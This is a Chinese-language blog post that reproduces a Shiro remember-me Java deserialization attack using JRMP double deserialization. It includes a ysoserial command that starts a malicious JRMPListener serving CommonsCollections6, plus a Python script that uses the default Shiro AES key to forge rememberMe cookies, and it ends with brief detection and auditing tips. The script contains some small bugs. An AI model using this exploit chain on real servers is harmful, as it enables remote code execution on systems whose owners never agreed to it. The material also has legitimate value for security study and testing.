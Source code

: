 ```yaml
---
layout: post
title: 'JAVA反序列化六'
subtitle: 'JRMP二次序列化'
date: 2021-09-23
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 JAVA
---
```


### 什么是JRMP

JAVA远程方法协议（Java Remote Method Protocol，JRMP）是特定于java技术的，用于查找和引用远程对象的协议。这是运行再java远程方法调用（RMI）之下、TCP/IP之上的线路层协议

JRMP是一个java特有的、适用于Java之间远程调用的基于流的协议，要求客户端和服务器上都使用Java对象

### 使用JRMP二次序列化的原因

由于shiro里面原本的反序列化的地方有自定义操作，无法加载数组类型的类，但是通过让它反序列化一个JRMPClient的payload，它会向远端攻击者指定的一个地址发起JRMP请求，并返回响应再进行反序列化解析，而JRMP响应反序列化解析这个过程，用的是RMI模板里正常的ObjectInputStream来readObject，它可以正常加载数据类型的类，因而通过这种二次反序列化的方式，就最终能正常加载Transformer数组，完成commons-collections利用链的解析，实现RCE

### 步骤

1.首先攻击者用ysoserial在自己的服务器上启动一个恶意的JRMPListener，用于提供payload CommonsCollections6，并指定弹计算器命令

![](https://1024861435.github.io/assets/img/JRMP二次序列化1.png)

2.攻击者再用ysoserial生成JRMPClient payload，发送给服务端

![](https://1024861435.github.io/assets/img/JRMP二次序列化2.png)

反序列化成功

![](https://1024861435.github.io/assets/img/JRMP二次序列化3.png)

### 漏洞复现

1.首先攻击者用ysoserial在自己的服务器上启动一个恶意的JRMPListener，用于提供payload CommonsCollections6，并指定弹计算器命令

	java -cp ysoserila.jar ysoserial。exploit。JRMPListener 9999 CommonsCollections6 "calc"

![](https://1024861435.github.io/assets/img/JRMP二次序列化4.png)

使用后它会监听JRMP，本地的9999端口

2.使用脚本发送请求

命令

	python Shiro_dns.py "http://localhost:8080/samples-web/login.jsp" "127.0.0.1:9999"、

脚本 

	import sys
	import base64
	import uuid
	from random import Random
	import subprocess
	from Crypto.Cipher import AES
	import requests
	
	proxy={
	    "http":"http://127.0.0.1:9998",
	    "https":"https://127.0.0.1:9998",
	}
	
	def encode_rememberme(command,key):
	    popen=subprocess.Popen(['java','-jar','D:\ysoserial\ysoserial-master-8eb5cbfbf6-1.jar','JRMPClient',command],stdout=subprocess.PIPE)
	    BS = AES.block_size
	    pad = lambda s: s+((BS - len(s)%BS)*chr(BS-len(s)%BS)).encode()
	    mode = AES.MODE_CBC
	    iv = uuid.uuid4().bytes
	    encryptor = AES.new(base64.b64decode(key),mode,iv)
	    file_body = pad(popen.stdout.read())
	    base64_ciphertext = base64.b64decode(iv+encryptor.encrypt(file_body))
	    return "rememberMe="+base64_ciphertext
	
	if __name__ == '__main__':
	    keylist=['kPH+bIxk5D2deZiIxcaaaA==']
	
	    for key in keylist:
	        cookie = encode_rememberme(sys.argv[2],key)
	        header = {"Cookie":cookie}
	        print(header,key)
	        r = requests.get(sys.argv[1],header=header,verify=False)
	        print(r.status_code)	

![](https://1024861435.github.io/assets/img/JRMP二次序列化5.png)

发送成功后会发现9999监听到了

![](https://1024861435.github.io/assets/img/JRMP二次序列化6.png)

并且计算器的命令执行成功

![](https://1024861435.github.io/assets/img/JRMP二次序列化7.png)


### 漏洞检测

关于漏洞的发现于检测也很简单，只需要在请求的Header中带有rememberMe=x

判断返回是否包含完整的rememberMe=deleteMe；字段即可

### 总结

> 1.漏洞触发场景

在java编写的web应用与web服务器间java通常会发送大量的序列化对象

例如以下场景：

	1）HTTP请求中的参数，cookies以及Parameters
	2）使用了RMI协议，需要引起注意，因为它完全基于序列化
	3）JMX同样用于处理序列化对象
	4）自定义协议，用来接受与发送原始的java对象

> 2.漏洞挖掘

1.确定反序列化输入点

首先应找出readObject方法调用，在找到以后进行下一步的注入操作。一般可以通过一下方法进行查找：

	1）源码审计：寻找利用的入口，即确定调用反序列化函数readObject的调用地点
	2）对该应用进行网络行为抓包，寻找序列化数据，如wireshack、tcpdump等
	注：java序列化数据一般一标记（ac ed 00 05）开头，base64编码后的特征为rO0AB

2.再考察应用的Class Path中是否存在可反序列化利用的Gadget库